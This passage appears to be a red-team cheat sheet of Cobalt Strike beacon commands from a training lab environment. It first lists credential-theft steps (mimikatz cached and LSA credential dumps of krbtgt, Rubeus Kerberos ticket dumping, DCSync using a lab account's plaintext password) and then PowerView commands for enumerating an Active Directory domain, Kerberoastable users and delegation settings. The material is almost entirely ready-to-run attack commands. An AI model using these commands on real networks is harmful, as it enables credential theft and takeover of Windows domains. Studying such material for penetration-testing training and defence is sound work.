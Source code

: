 ```powershell
beacon> mimikatz !lsadump::cache

# List the kerberos tickets cached in current logon session or all logon session (privileged session)
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe triage

# Dump the TGT Ticket from given Logon Session (LUID)
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe dump /luid:0x7049f /service:krbtgt

# DC Sync
beacon> make_token DEV\nlamb F3rrari
beacon> dcsync dev.cyberbotic.io DEV\krbtgt

# Dump krbtgt hash from DC (locally)
beacon> mimikatz !lsadump::lsa /inject /name:krbtgt
```
## Domain Recon
### PowerView
```powershell
# Use PowerView for domain enumeration
beacon> powershell-import C:\Tools\PowerSploit\Recon\PowerView.ps1

# Get Domain Information
beacon> powerpick Get-Domain -Domain <>

# Get Domain SID
beacon> powerpick Get-DomainSID

# Get Domain Controller
beacon> powerpick Get-DomainController | select Forest, Name, OSVersion | fl

# Get Forest Information
beacon> powerpick Get-ForestDomain -Forest <>

# Get Domain Policy
beacon> powerpick Get-DomainPolicyData | select -expand SystemAccess

# Get Domain users
beacon> powerpick Get-DomainUser -Identity jking -Properties DisplayName, MemberOf | fl

# Identify Kerberoastable/ASEPRoastable User/Uncontrained Delegation
beacon> powerpick Get-DomainUser | select cn,serviceprincipalname
beacon> powerpick Get-DomainUser -PreauthNotRequired
beacon> powerpick Get-DomainUser -TrustedToAuth

# Get Domain Computer
beacon> powerpick Get-DomainComputer -Properties DnsHostName | sort -Property DnsHostName

# Idenitify Computer Accounts where unconstrained and constrained delefation is enabled
beacon> powerpick Get-DomainComputer -Unconstrained | select cn, dnshostname
beacon> powerpick Get-DomainComputer -TrustedToAuth | select cn, msdsallowedtodelegateto

# Get Domain OU
beacon> powerpick Get-DomainOU -Properties Name | sort -Property Name

# Identify computers in given OU
beacon> powerpick Get-DomainComputer -SearchBase "OU=Workstations,DC=dev,DC=cyberbotic,DC=io" | select dnsHostName

# Get Domain group (Use -Recurse Flag)
```